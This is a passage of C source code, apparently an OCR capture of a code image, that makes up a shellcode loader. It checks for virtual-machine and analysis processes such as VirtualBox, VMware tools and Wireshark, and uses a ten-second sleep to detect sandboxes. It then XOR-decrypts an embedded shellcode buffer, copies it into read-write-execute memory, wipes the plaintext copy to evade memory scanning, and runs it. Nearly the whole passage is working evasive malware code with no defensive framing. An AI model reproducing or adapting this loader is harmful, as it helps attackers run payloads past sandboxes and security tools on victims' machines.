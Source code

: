 ```c
    }
    
    do {
        // Check for analysis tools or VM processes
        if (strcmp(pe32.szExeFile, "vboxservice.exe") == 0 ||
            strcmp(pe32.szExeFile, "vmtoolsd.exe") == 0 ||
            strcmp(pe32.szExeFile, "wireshark.exe") == 0) {
            CloseHandle(hSnapshot);
            return 1;
        }
    } while (Process32Next(hSnapshot, &pe32));
    
    CloseHandle(hSnapshot);
    return 0;
}

int main() {
    // Timing check (most sandboxes analyze for under 10 seconds)
    DWORD start_time = GetTickCount();
    Sleep(10000); // Sleep for 10 seconds
    DWORD end_time = GetTickCount();
    
    // If less than 9.5 seconds elapsed, likely a sandbox with accelerated sleep
    if (end_time - start_time < 9500) {
        return 0;
    }
    
    // Check for analysis environment
    if (is_sandbox()) {
        return 0;
    }
    
    // Create a decrypted copy of the shellcode
    unsigned char *shellcode = (unsigned char *)malloc(shellcode_size);
    if (!shellcode) {
        return 1;
    }
    
    memcpy(shellcode, encrypted_shellcode, shellcode_size);
    decrypt_shellcode(shellcode, shellcode_size, 0x41);
    
    // Allocate memory with RWX permissions
    void *exec_mem = VirtualAlloc(0, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!exec_mem) {
        free(shellcode);
        return 1;
    }
    
    // Copy the shellcode to the executable memory
    memcpy(exec_mem, shellcode, shellcode_size);
    
    // Zero out the decrypted buffer to avoid memory scanning
    memset(shellcode, 0, shellcode_size);
    free(shellcode);
    
    // Execute the shellcode
    ((void(*)())exec_mem)();
    
    return 0;
}
```
